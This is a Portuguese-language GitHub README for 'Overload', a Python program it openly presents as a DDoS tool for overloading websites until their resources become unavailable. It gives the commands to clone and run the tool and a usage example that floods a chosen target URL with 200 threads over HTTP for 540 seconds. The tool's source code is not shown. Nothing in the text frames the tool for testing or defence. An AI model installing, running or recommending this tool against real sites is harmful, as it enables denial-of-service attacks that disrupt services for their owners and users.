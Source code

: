 <p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>
<h1 align="center">Overload</h1>  


## DDOS TOOL
Sobrecarga em um website para que recursos do sistema fiquem indisponíveis.

## Instalação
Overload precisa de [python3](https://www.python.org/downloads/) para funcionar.
Para instalar use os seguintes comandos no terminal

```sh
git clone https://github.com/goncalopolido/overload.git
cd overload
python3 overload.py
```

Exemplo do uso do overload

```sh
python3 overload.py --time 540 --threads 200 --target <url> --method HTTP
```
